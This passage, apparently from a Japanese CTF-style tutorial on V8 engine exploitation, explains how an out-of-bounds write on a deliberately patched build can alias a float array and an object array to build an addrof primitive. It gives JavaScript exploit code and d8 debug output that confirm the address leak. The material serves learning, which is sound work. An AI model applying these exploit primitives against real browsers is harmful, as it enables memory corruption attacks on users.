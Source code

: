 それぞれのelementsの値を比較すると0x20の差があることがわかる。`float_arr`のelementsは前述の通り取得出来るのでそれに0x20を足せば`obj_arr`のelementsのアドレスが判明する。

`float_arr`のelementsは`float_arr[length+1]`に値を代入することで書き換えられるため、リークしたこのアドレスを入れて同一のelementsを指すようにする。

この状態で`obj_arr[0]`にオブジェクトを入れると、メモリ上ではポインタが入るが、`float_arr`も同じelementsを共有しているため、こちらでの参照はこのオブジェクトのポインタを浮動小数点数に変換した値として得られる。これでオブジェクトを渡すとそのアドレスが得られるaddrofプリミティブが実現出来る。

以下は、v8 heapにおけるポインターの圧縮を考慮したaddrofを実現するコードである。

```javascript
let float_arr = [1.1];
let obj_arr = [{A:1}];

float_arr = float_arr.slice(0);
obj_arr = obj_arr.slice(0);

// pElements of float_arr = pElements of obj_arr
let obj_elm = f2i(float_arr[2]) + 0x20n; // from DebugPrint and gdb
float_arr[2] = i2f(obj_elm);

function addrof(o) {
    obj_arr[0] = o;
    return f2i(float_arr[0]) & 0xffffffffn;  // note: ptr is compressed in v8 heap
}
```

実際にこれが機能することを確認する。

先に`float_arr`と`obj_arr`でelementsが一致することを確認する。

```txt
d8> %DebugPrint(float_arr)
DebugPrint: 0x362208084ea1: [JSArray]
 - map: 0x3622082438fd <Map(PACKED_DOUBLE_ELEMENTS)> [FastProperties]
 - prototype: 0x36220820a555 <JSArray[0]>
 - elements: 0x362208084eb1 <FixedArray[1]> [PACKED_DOUBLE_ELEMENTS]
 - length: 3
 ... (略)
d8> %DebugPrint(obj_arr)
DebugPrint: 0x362208084ebd: [JSArray]
 - map: 0x36220824394d <Map(PACKED_ELEMENTS)> [FastProperties]
 - prototype: 0x36220820a555 <JSArray[0]>
 - elements: 0x362208084eb1 <FixedArray[1]> [PACKED_ELEMENTS]
 - length: 3
 ... (略)
```

この状態で`o = {X:1}`というオブジェクトのアドレス(の下位32bit)をaddrofで取得して、`DebugPrint`で確認すると一致していることがわかる。

```txt
d8> let o = {X:1}
undefined
d8> console.log("0x" + addrof(o).toString(16))
0x80869ed
undefined
d8> %DebugPrint(o)
DebugPrint: 0x3622080869ed: [JS_OBJECT_TYPE]
... (略)
```


[^1]: Heap Exploitの簡単な問題を解いたことがある(私自身がこれ)ぐらいを想定しているが、AARとAAWが出来ると何が嬉しいかなんとなくわかっていれば問題ないと思う
[^2]: 手元でビルドするメリットも存在し、[katagaitai CTF勉強会 #11 Pwnable編 - PlaidCTF 2016 Pwnable666 js_sandbox / katagaitai CTF #11 - Speaker Deck](https://speakerdeck.com/bata_24/katagaitai-ctf-number-11?slide=28)によれば、printfやインラインアセンブリ(`int3`)によるデバッグの効率化等があるらしい
[^3]: 脆弱性を埋め込むパッチを埋め込んでいない場合は、配列の外側を参照することになるためundefinedになる